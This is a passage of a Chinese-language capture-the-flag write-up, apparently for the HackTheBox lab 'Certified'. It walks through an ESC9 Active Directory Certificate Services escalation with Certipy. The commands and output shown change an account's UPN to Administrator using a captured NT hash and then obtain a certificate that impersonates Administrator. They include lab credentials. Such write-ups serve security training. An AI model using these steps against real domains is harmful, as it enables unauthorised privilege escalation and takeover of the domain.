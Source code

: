 ![](./images/image-54.png)

发现存在`NoSecurityExtension`，因此可以使用ESC9来进行攻击

使用 `Certipy` 工具将 NT hash (`a091c1832bcdd4677c28b5a6a1295584`) 更新到 `ca_operator` 账户，并修改了该账户的 `userPrincipalName` (UPN) 为 `Administrator`

```
┌──(root㉿kali)-[/home/kali/Certified]
└─# certipy-ad account update -username management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn Administrator
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : Administrator
[*] Successfully updated 'ca_operator'
```

成功请求到一个证书，且该证书与 `Administrator` 账户关联（尽管请求的是 `ca_operator` 用户）。这意味着，现在有了一个可以代表 `Administrator` 账户的证书。

```
┌──(root㉿kali)-[/home/kali/Certified]
└─# certipy-ad req -username ca_operator@certified.htb -p 12345678 -ca certified-DC01-CA -template CertifiedAuthentication -debug     
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'CERTIFIED.HTB' at '192.168.237.2'
[+] Resolved 'CERTIFIED.HTB' from cache: 10.10.11.41
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.11.41[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.11.41[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 4
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'                                     
```
